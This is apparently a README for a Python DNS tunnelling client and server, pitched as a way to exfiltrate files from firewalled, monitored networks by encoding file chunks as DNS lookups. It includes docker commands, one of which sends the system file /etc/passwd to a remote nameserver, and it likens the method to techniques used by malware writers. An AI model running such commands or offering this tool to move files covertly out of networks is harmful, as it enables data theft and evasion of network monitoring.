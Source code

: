 # Send files over DNS

Data exfiltration out of a tightly monitored and firewalled network can be *tricky*.

**UDP/53 has entered the chat**

DNS queries are often overlooked by network administrators when filtering outgoing
network traffic. Here you'll find a simple python DNS client/server impl for sending
files.

# How it works

The client will cut the file to be sent into chunks and then encode each of those
chunks (in base58 for DNS Label friendliness). Each of these encoded chunks is
sent to the custom DNS server as domain name lookup. The server just takes the
chunks, decoded them, and reassembles them into the original file.

# How to build and execute with docker

```
docker build --tag dns_server .

# run the server:
docker run -p 53:8053 \
           -v /tmp/data:/data \
           --rm -ti dns_server

# run the client - send /etc/passwd to the server:
docker run --env TRANSFER_IO_NAMESERVER=192.168.1.101 \
           --env TRANSFER_IO_NAMESERVER_PORT=53 \
           --rm -ti dns_server python client.py /etc/passwd
```

Be sure to set the ip/ports to match your network setup.

The volume map on the server is where you'll find the decoded files sent to the server.
Their names will still be b58 encoded.

### Related work

After experiencing the momentary high of discovering this myself, I
figured that I wouldn't have been the first to discover this.
Indeed, I was not.
Apparently malware writers have been using similar techniques for years.
Here are a list of similar tools:

- [DNScat](http://tadek.pietraszek.org/projects/DNScat/)
- [DNSMessager](https://thehackernews.com/2017/03/powershell-dns-malware.html)



